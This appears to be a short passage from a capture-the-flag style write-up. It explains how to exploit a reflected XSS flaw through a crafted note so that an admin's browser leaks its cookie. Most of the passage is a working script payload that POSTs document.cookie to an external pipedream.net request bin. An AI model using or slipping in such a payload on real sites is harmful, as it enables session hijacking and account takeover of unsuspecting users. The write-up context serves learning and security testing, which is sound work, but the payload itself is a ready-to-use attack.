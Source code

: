 <img src="./3.png"
     alt="Markdown Monster icon"
     style="
     width: 80%;
     diplay: box;"
/>

Using the `reflected XSS` vuln, we can inject a `fetch` POST call to our bin where we ask the admin to send its cookie. So the first thing is to generate the malicious link by creating a note :

```html
<script>
fetch("https://eok1p4dql4pp3y0.m.pipedream.net", {
    method: 'POST', // *GET, POST, PUT, DELETE, etc.
    mode: 'cors', // no-cors, *cors, same-origin
    cache: 'no-cache', // *default, no-cache, reload, force-cache, only-if-cached
    credentials: 'same-origin', // include, *same-origin, omit
    headers: {
      'Content-Type': 'application/json'
      // 'Content-Type': 'application/x-www-form-urlencoded',
    },
    redirect: 'follow', // manual, *follow, error
    referrerPolicy: 'no-referrer', // no-referrer, *no-referrer-when-downgrade, origin, origin-when-cross-origin, same-origin, strict-origin, strict-origin-when-cross-origin, unsafe-url
    body: JSON.stringify(document.cookie) // body data type must match "Content-Type" header
  });
</script>
```
